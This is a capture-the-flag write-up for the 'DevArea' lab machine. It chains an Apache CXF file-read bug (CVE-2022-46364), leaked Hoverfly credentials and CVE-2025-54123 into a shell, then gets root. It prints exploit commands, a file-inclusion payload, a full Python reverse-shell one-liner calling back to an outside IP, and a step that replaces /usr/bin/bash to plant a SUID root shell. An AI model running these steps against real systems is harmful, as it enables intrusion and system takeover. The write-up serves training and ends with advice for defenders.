

# DevArea


An old SOAP web service running on Jetty turned out to be hiding a nasty Apache CXF deserialization/SSRF bug — good enough to read arbitrary files on the box. That LFI primitive was pointed straight at a Hoverfly systemd service file, which leaked proxy admin credentials in plaintext (thanks for the free base64, guys). Those credentials fed into a second public exploit to get a reverse shell as `dev_ryan`. From there, `linpeas` found a `sudo`-able monitoring script calling `/usr/bin/bash` directly — the oldest trick in the book (hijack the interpreter, drop a SUID bash) got us root.

---

## 1. Reconnaissance

Kicked things off with a full `nmap` scan:

```bash
❯ sudo nmap -Pn 10.129.244.208 -sCV
Nmap scan report for 10.129.244.208
Host is up (0.42s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Sep 22  2025 pub
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://devarea.htb/
8080/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Error 404 Not Found
8500/tcp open  http    Golang net/http server
|_http-title: Site doesn't have a title (text/plain; charset=utf-8)
8888/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Hoverfly Dashboard
```

A nice, chunky attack surface right out of the gate:
- **21** — anonymous FTP
- **80** — main site, redirects to `devarea.htb`
- **8080** — Jetty, a SOAP-flavored web service
- **8500** — a Go proxy server ("This is a proxy server. Does not respond to non-proxy requests.")
- **8888** — a **Hoverfly** dashboard (an HTTP mock/proxy tool — remember this one, it comes back later)

Added `devarea.htb` to `/etc/hosts` and moved on.

---

## 2. FTP Enumeration

Logged into the FTP server anonymously and grabbed everything sitting in `pub/`. One file stood out: `employee-service.jar` — the backend code for the SOAP service running on port 8080.

Decompiling it showed the application implements an old-school **SOAP web service** (XML-based, pre-REST-era), with an `EmployeeService` class exposing a `submitReport` method that takes a `Report` object — and its `content` field is where things get interesting.



---

## 3. Initial Access — Apache CXF SSRF/LFI (CVE-2022-46364)

Code review turned up an old **Apache CXF** library bundled with the service. Apache CXF has a well-known vulnerability, **CVE-2022-46364**, in how it handles MTOM/XOP attachments.

**The gist:** instead of sending literal text in an XML field, MTOM lets you reference external content via `<xop:Include href="..."/>`. The vulnerable versions of CXF don't validate that reference, so an attacker can point it at:

- A local file path (`file:///etc/passwd`) → **Local File Inclusion**
- An internal/external URL → **SSRF**

Example malicious payload dropped straight into the `content` field of the `submitReport` request:

```
 '<xop:Include href="file:///etc/passwd"/>'
```

A public PoC made this trivial to weaponize: [CVE-2022-46364-Poc (GitHub)](https://github.com/kasem545/CVE-2022-46364-Poc)

```bash
python3 CVE-2022-46364.py \
  -t http://devarea.htb:8080/employeeservice \
  -s file:///etc/passwd \
  -d devarea.htb
```


Confirmed arbitrary file read. Time to make it count.

---

## 4. Turning LFI into Credentials — Leaking Hoverfly's Config

Recall that Hoverfly dashboard sitting on port 8888. Hoverfly acts as an API proxy/handler — meaning it's configured with credentials and likely started via a systemd unit file. Pointed the same LFI at its service definition:

```bash
❯ python3 CVE-2022-46364.py \
  -t http://devarea.htb:8080/employeeservice \
  -s file:///etc/systemd/system/hoverfly.service \
  -d devarea.htb
```

The exploit dutifully fetched the file, base64-decoded it, and handed over the goods:

```ini
[Unit]
Description=HoverFly service
After=network.target

[Service]
User=dev_ryan
Group=dev_ryan
WorkingDirectory=/opt/HoverFly
ExecStart=/opt/HoverFly/hoverfly -add -username admin -password O7IJ27MyyXiU -listen-on-host 0.0.0.0

Restart=on-failure
RestartSec=5
StartLimitIntervalSec=60
StartLimitBurst=5
LimitNOFILE=65536
StandardOutput=journal
StandardError=journal

[Install]
WantedBy=multi-user.target
```

And there it is — Hoverfly admin credentials sitting in plaintext inside a systemd unit file, run as `dev_ryan`. Never store secrets in `ExecStart`, folks.

**Credentials:** `admin : O7IJ27MyyXiU`


---

## 5. Reverse Shell via CVE-2025-54123

With valid Hoverfly credentials in hand, a second exploit from the same researcher fit perfectly: [CVE-2025-54123-Poc (GitHub)](https://github.com/kasem545/CVE-2025-54123-Poc)

```bash
python3 exploit.py -t <TARGET_URL> -u <USERNAME> -p <PASSWORD> -c <COMMAND> [--shell SHELL]
```

Sanity-checked with a simple command first:

```bash
❯ python3 CVE-2025-54123.py -t http://devarea.htb:8888 -u admin -p O7IJ27MyyXiU -c "whoami"
```


Command execution confirmed. Grabbed a reverse shell payload from [InternalAllTheThings' reverse shell cheatsheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) and fired it off:

```bash
python3 CVE-2025-54123.py -t http://devarea.htb:8888 -u admin -p O7IJ27MyyXiU -c "python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.17.212\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")'"
```


Shell caught as `dev_ryan`. User flag secured.

---

## 6. Privilege Escalation — SUID Bash via syswatch.sh

Ran `linpeas.sh` to hunt for the next step. It flagged a `syswatch.zip` sitting in the home directory and, more importantly, a sudo-able script at `/opt/syswatch/syswatch.sh`.

"Syswatch" here refers to a terminal-based system monitoring/diagnostic tool (an `htop`/`btop`-style utility) — and critically, the script invokes `/usr/bin/bash` directly.


**The plan:** since `syswatch.sh` runs as root and calls `/usr/bin/bash`, hijacking that binary means our code runs with root privileges the next time the script fires.

### Step 1 — Clean up running bash processes

Before touching `/usr/bin/bash`, any process still holding it open will block an overwrite:

```bash
killall bash
lsof /usr/bin/bash   # confirm nothing is still using it
```

The initial shell was itself a `bash` process, so `killall bash` happily killed my own session too. Had to reconnect and continue from a `/bin/sh` shell instead to avoid shooting myself in the foot again.

### Step 2 — Back up the real bash, then hijack it

```bash
cp /usr/bin/bash /tmp/bash.bak
```

Replaced `/usr/bin/bash` with a fake script (technique borrowed from [this write-up](https://infosecwriteups.com/linux-privesc-tryhackme-writeup-bf4e32460ee5), task 9) that uses the real bash binary as its interpreter, then drops a SUID copy:

```bash
cat > /usr/bin/bash << 'EOF'
#!/tmp/bash.bak
cp /tmp/bash.bak /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
```

### Step 3 — Trigger syswatch to run it as root

```bash
sudo /opt/syswatch/syswatch.sh status
# syswatch calls /usr/bin/bash internally — our fake script executes as root

ls -la /tmp/rootbash
-rwsr-xr-x 1 root root 1446024 Apr  4 06:03 /tmp/rootbash
```

### Step 4 — Cash in the SUID shell

```bash
/tmp/rootbash -p
rootbash-5.2#
```

Root shell acquired. 🎉


---

## 7. Summary & Takeaways

| Step | Vulnerability | Result |
|---|---|---|
| Initial access | Apache CXF MTOM SSRF/LFI (CVE-2022-46364) in a SOAP service | Arbitrary file read on the target |
| Credential leak | LFI targeted at `hoverfly.service` unit file | Plaintext Hoverfly admin credentials |
| Foothold | CVE-2025-54123 authenticated command execution against Hoverfly | Reverse shell as `dev_ryan` |
| Privilege escalation | Sudo-able `syswatch.sh` invoking `/usr/bin/bash` directly | SUID root bash binary → root shell |

**Lessons for defenders:**
- Keep third-party libraries (like Apache CXF) patched — MTOM/XOP handling has been a recurring source of SSRF/LFI bugs.
- Never put credentials directly inside a systemd unit's `ExecStart=` line. Use an `EnvironmentFile=` with locked-down permissions instead.
- Avoid `sudo`-granting scripts that shell out to system binaries like `bash` by relative or ambiguous paths — always use absolute, immutable paths, and better yet, avoid spawning a shell from a privileged script altogether.

GG. 🏁